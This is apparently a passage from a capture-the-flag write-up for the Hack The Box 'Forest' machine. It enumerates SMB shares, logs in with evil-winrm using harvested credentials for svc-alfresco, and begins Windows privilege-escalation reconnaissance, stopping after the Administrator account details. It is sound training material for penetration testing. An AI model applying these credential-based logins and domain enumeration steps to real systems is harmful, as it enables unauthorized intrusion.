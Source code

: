 IPC$ throws an NT_STATUS_NO_SUCH_FILE listing error when trying to read from the working directory.

NETLOGON is empty.

SYSVOL actually gives us something to work with. Within SYSVOL are two "Policies":
- {31B2F340-016D-11D2-945F-00C04FB984F9} (31)
- {6AC1786C-016F-11D2-945F-00C04fB984F9} (6A)

Both have the same directory structure and both contain the files GPT.INI and GptTmpl.inf. Lastly, there is a directory I can't access called "DfsrPrivate"

The 31 GptTmpl.inf file comains a lot of information about User Right Assignments.
INF files are Setup Information Files which is used by Microsoft Windows for installation of software and drivers.

## Exploitation
After much time enumerating and reading I finally have gained foothold! During my flailing, I saw that 5985 is open! Because I have credentials I can probably authenticate using evil-winrm. 
```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

...I am an idiot....

## Privilege Escalation

### Enumeration
Some basic enumeration on Windows before I go into AD stuff
```
> hostname
FOREST

> whoami
htb\svc-alfresco
```

Some information on Administrator
```
> net user Administrator
User name                    Administrator
Full Name                    Administrator
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/30/2021 5:51:58 PM
Password expires             Never
Password changeable          8/31/2021 5:51:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/28/2022 4:29:34 PM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Enterprise Admins    *Organization Manageme
                             *Domain Users         *Group Policy Creator
                             *Domain Admins        *Schema Admins
The command completed successfully.
```